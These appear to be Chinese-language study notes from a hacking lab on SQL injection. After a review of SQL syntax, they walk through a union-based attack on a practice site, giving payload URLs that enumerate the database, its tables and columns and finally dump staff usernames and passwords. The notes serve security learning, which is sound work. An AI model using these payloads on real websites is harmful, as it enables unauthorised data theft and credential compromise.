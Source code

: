 ### SQL注入
- SQL(结构化查询语句)
  - SELECT
    - `select * from users;`
    - `select * from users LIMIT 2,1` # 跳过前两个结果,返回一个结果
    - `select * from users where username like '%mi%';`
  - UNION
    - 此查询的规则
      - UNION 语句必须在每个 SELECT 语句中检索相同数量的列
      - 这些列必须具有相似的数据类型并且列顺序必须相同
      - 注入常用
        - `select username,pass,info from users where id = 1 union select 1,2,3`
  - INSERT
    - `insert into users (username,password) values ('bob','password123');`
  - UPDATE
    - `update users SET username='root',password='pass123' where username='admin';`
- SQL注入
  - `https://website.thm/blog?id=1`
    - 后台 `SELECT * from blog where id=1 and private=0 LIMIT 1;`
    - 构造访问 `https://website.thm/blog?id=2;--`
    - 后台结果 `SELECT * from blog where id=2;-- and private=0 LIMIT 1;`
  - 三种类型
    - In-Band
    - Blind 
    - Out Of Band

- In-Band SQLi
  - Error-Based SQL Injection
    - 这种类型的 SQL 注入对于轻松获取有关数据库结构的信息最有用，因为来自数据库的错误消息会直接打印到浏览器屏幕。
    - 这通常可用于枚举整个数据库。
  - Union-Based SQL Injection
    - 这种类型的注入利用 SQL UNION 运算符和 SELECT 语句将其他结果返回到页面。
    - 此方法是通过 SQL 注入漏洞提取大量数据的最常用方法。
  - 实践
    - URL:`https://website.thm/article?id=1`
    - 后台php `select * from article where id = 1`
    - 第一步 
      - 构造URL `https://website.thm/article?id=1'`
      - 发现返回错误信息，证明存在漏洞
    - 第二步
      - 使后台返回的是数据而不是错误信息
      - 构造URL `https://website.thm/article?id=1 union select 1`,返回错误
      - 构造URL `https://website.thm/article?id=1 union select 1,2`,返回错误
      - 构造URL `https://website.thm/article?id=1 union select 1,2,3`,返回正常数据
      - 构造URL `https://website.thm/article?id=0 union select 1,2,3`,使返回结果只为 `1 2 3`,使可以开始使用这些返回值来检索更有用的信息
    - 第三步
      - 构造URL `https://website.thm/article?id=0 union select 1,2,database()` 得到数据库名称 `sqli_one`
      - 构造URL `https://website.thm/article?id=0 union select 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`  得到表名 `article` 和 `staff_users`
        - `group_concat()` 从多个返回的行中获取指定的列（例子中是 table_name）
        - `information_schema`,数据库的每个用户都可以访问它,它包含有关用户有权访问的所有数据库和表的信息
        - `table_schema`
      - 构造URL `https://website.thm/article?id=0 union select 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`  得到列名 `id` `password` 和 `username`
        - 检索的信息已从 table_name 更改为 column_name
        - information_schema 数据库中查询的表已从 tables 更改为 columns
        - 正在搜索 table_name 列的值为 staff_users的所有行
      - 构造URL `https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`
        - `SEPARATOR` 分隔符
